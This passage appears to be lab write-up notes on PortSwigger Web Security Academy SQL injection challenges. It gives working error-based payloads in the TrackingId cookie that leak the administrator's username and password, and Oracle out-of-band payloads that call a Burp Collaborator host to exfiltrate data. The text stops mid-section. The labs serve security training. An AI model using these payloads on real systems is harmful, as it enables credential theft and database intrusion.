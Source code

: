 ```
- Delete the original value of the TrackingId cookie to free up some additional characters. Resend the request.

```TrackingId=' AND 1=CAST((SELECT username FROM users) AS int)--```
Notice that you receive a new error message, which appears to be generated by the database. This suggests that the query was run properly, but you're still getting an error because it unexpectedly returned more than one row.

- Modify the query to return only one row:

```TrackingId=' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--```

```
Cookie: TrackingId=T' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--; session=rzBGt19n6jve3MMgkapeHCTeDfGy3NpX
```
Send the request. Observe that the error message now leaks the first username from the users table:

ERROR: invalid input syntax for type integer: "administrator"

- Now that you know that the administrator is the first user in the table, modify the query once again to leak their password:

```TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--```

```
GET /filter?category=Gifts HTTP/2
Host: 0ac100860458d22081a92fdb004300d4.web-security-academy.net
Cookie: TrackingId=T' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--; session=rzBGt19n6jve3MMgkapeHCTeDfGy3NpX
```
- Log in as administrator using the stolen password to solve the lab.

# Blind SQL injection with out-of-band interaction
Get a DNS lookup to BurpCollaborator via the SQLi.
## Observations
No clear vulnerabilities. There is a TrackingId cookie so it may be in that but it doesn't seem to change the behavior of the application. 

- Oracle payload to get OOB interaction:
```
GET /filter?category=Toys+%26+Games HTTP/2
Host: 0a8a003c030d338e828b8deb004c0055.web-security-academy.net
Cookie: TrackingId=pdPF94XVSqyqI0Ts'||+(SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//wllxdgwpnw3dop9t2v2lbwp2vt1kpbd0.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual)--; session=LKe7iMf5zWDWrruDj7hwS1HSi6f1yIyz
```

# Blind SQL injection with out-of-band data exfiltration
In this challenge, the goal is to get the username and password for administrator using the OOB server. 

It is very similar to the above challenge so we'll just redo that but modify the payload to append the necessary information to the request to collaborator:

- Start with this payload to confirm OOB interaction:
```
'||+(SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//5696yphy85om9yu2n4nuw5abg2mtamyb.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual)--
```
- Then we need to actuall extract data. We do this by modifying the payload to include information from the users table. To do that, we prepend the select statement to the OOB URL:
``` '||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||' ```
So the total payload looks like this:
```